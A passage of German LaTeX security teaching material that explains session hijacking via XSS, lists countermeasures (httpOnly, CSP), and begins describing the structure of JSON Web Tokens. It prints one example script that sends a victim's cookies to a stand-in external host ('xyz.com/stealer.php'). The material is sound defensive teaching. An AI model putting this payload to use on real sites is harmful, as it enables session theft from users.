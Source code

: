 \subsection{Session-Extraktion mittels einer XSS-Lücke}

Mittels Javascript kann auf Session-Cookies zugegriffen werden. Falls die Webseite eine (der häufigen) XSS-Lücken besitzt kann ein Angreifer nun Javascript-Code auf der Webseite platzieren, warten bis ein anderer Benutzer darauf zugreift und mittels des Javascript-Codes die Session-Id auf einen externen Server übermitteln. Dieser Angriffsvektor macht vor allem Spaß, wenn eine Nachrichtenfunktion innerhalb einer Applikation verwundbar ist, da man dadurch einzelne Benutzer direkt anvisieren kann.

Beispiel für ein einfaches Javascript-Fragment welches ein Redirect auf einen externen Server (xyz.com) durchführt und als GET-Parameter die aktuellen Cookies übergibt:

\begin{verbatim}
<script>location.href = 'http://xyz.com/stealer.php?cookie='+document.cookie;
</script>
\end{verbatim}

Folgende Gegenmaßnahmen sollten implementiert werden:

\begin{itemize}
	\item keine XSS-Lücke in der Webseite implementieren\ldots
	\item durch Verwendung des httpOnly-Cookie Flags kann dem Webbrowser mitgeteilt werden, dass der Zugriff mittels Javascript auf das Session Cookie nicht erlaubt ist.
	\item CSP bietet Möglichkeiten XSS-Angriffe einzuschränken.
\end{itemize}

\section{JSON Web Tokens}

JSON Web Tokens (JWT) sind standardisierte (RFC 7519) Tokens die als HTTP Parameter, HTTP Session Cookies oder mittels eines HTTP Headers übertragen werden können. Ein JSON Web-Token besteht aus drei Bereichen:

\begin{itemize}
	\item Header: dieser Bereich speichert vor allem den verwendeten Algorithmus zur Erstellung des Integrity Checks.
	\item Content: JSON-Dokument welches die eigentliche Payload des Tokens ist. Es gib hier mehre vordefinierte optionale Werte: \textit{iss} beschreibt den Issuer/Aussteller des Tokens, \textit{sub} beschreibt das Subjekt des tokens, \textit{aud} die geplante Audience (welche Server sollen das Token erhalten, \textit{exp} und \textit{nbf} den Gültigkeitszeitraum des tokens, \textit{iat} den Ausstellungszeitpunkt.
	\item Integrity Check: der integrity check verwendet den, im \textit{alg}-Header definierten Algorithmus über \textit{header} und \textit{content} um eine Checksumme zu bilden.
\end{itemize}

